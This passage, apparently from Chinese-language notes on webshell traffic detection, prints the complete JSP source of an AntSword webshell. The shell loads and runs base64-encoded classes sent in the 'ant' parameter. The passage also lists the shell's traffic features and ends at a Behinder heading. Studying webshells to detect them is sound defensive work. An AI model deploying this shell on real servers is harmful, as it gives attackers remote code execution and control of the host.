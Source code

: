 ### Antsword 蚁剑

Webshell代码：

```jsp
# 4.jsp

<%!
class U extends ClassLoader{
  U(ClassLoader c){
    super(c);
  }
  public Class g(byte []b){
    return super.defineClass(b,0,b.length);
  }
}
%>
<%
String cls=request.getParameter("ant");
if(cls!=null){
  new U(this.getClass().getClassLoader()).g(new sun.misc.BASE64Decoder().decodeBuffer(cls)).newInstance().equals(pageContext);
}
%>
```

流量特征：

- 明文传输。
- ant是jsp一句话木马的password。

![img](./images/202211091034381.png)

### Behinder 冰蝎2
